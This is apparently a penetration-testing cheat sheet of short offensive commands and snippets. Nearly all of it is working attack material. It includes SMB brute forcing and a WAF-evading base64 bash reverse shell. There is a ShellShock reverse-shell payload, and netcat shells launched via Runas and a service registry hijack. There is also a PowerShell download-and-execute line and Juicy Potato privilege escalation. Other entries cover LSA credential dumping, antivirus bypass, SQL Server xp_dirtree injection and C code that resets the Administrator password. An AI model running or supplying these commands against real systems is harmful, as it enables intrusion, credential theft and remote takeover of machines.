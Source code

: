 # Miscellaneous

##### Cisco Type 7 Password Hash Crack
```
http://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html
```

##### Bruteforce SMB
```
cme smb IP -u users.txt -p passwords.txt
```

##### Bruteforce RID
```
cme smb IP -u USER -p PASSWORD --rid-brute
```

##### Dump memory process
```
prodcump.exe -ma PID file.dmp
```

##### Verb Tampering
```
Change HTTP Method to bypass Authentication or check works or not.
```

##### Bypass WAF replacing spaces with ${IFS}
```
echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMQo=|base64${IFS}-d|bash
```

##### Uncompile compiled Python File
```
mv backup backup.pyc
uncompyle6 backup.pyc
```

##### Mime magic bytes
`````
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png (Check Networked)
`````


##### Check CMS
```
wappalyzer http://10.10.10.138/writeup/ | jq
```

##### Scanning magento
```
php magescan.phar scan:all http://IP
```

##### Powershell Runas
```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\get.ps1; }"
```
##### ShellShock
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.138 4444 >/tmp/f'" http://10.1.10.10/cgi-bin/admin.cgi
```

##### SCP for Windows
```
./pscp.exe -pw '12345' -batch -hostkey 8e:32:52:2e:9c:1d:30:74:2c:56:23:b5:f2:36:d4:87  firefox.exe_191116_172631.dmp  test@10.10.14.4:/home/test/
```

##### SSH Port Forwarding for Windows
```
y:\plink.exe -l userforpf -pw 12345 10.10.14.13 -R 5985:127.0.0.1:5985
```

##### List Services in Registry
```
Get-Childitem HKLM:\SYSTEM\CurrentControlset\Services\wuauserv | format-list
Get-ACL HKLM:\SYSTEM\CurrentControlSet\ | format-list
```
##### Registry Hijacking
```
reg add "HKLM\System\CurrentControlSet\services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.2 9999 -e cmd" /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\seclogon" /v ImagePath
```
##### Juicy Potato
```
juicypotato.exe -l 10000 -p "C:\Windows\system32\cmd.exe" -t * -a "/c whoami > text" -c {6d8ff8e0-730d-11d4-bf42-00b0d0118b56}
```
##### Volatility
```
volatility -f file ---profile=profile lsadump
```

##### Bypass Antivirus in Windows
```
git clone https://github.com/trustedsec/nps_payload.git
cd nps_payload/
pip install -r requirements.txt
python nps_payload.py

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\10.10.14.13\myshare\msbuild_nps.xml

method 2: https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/
```

##### Samba Share
```
apt-get install samba
cd /etc/samba/
vi smb.conf
```
```
[Guest]
        comment = Guest
        path = /tmp/share/
        browseable = yes
        read only = yes
        guest ok = yes
```

##### Powershell x64
```
C:\Windows\SysNative\WindowsPowershell\v1.0\Powershell -c "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.13/Invoke-PowerShellTcp.ps1')
```

##### Running ps1
```
powershell.exe -ExecutionPolicy Bypass -File .\JAWS.ps1 -OutputFilename JAWS-Enum.txt
```

##### SQL Server XP_Dirtree
```
1;EXEC master..xp_dirtree '\\10.10.14.3\foo' --
```

##### Service binary path exploitation with custom C exploit
```
int main()
{
system("net user Administrator HackedByAydin123@");
return 0;
}

i686-w64-mingw32-gcc taskkill.c -o taskkill.exe
```





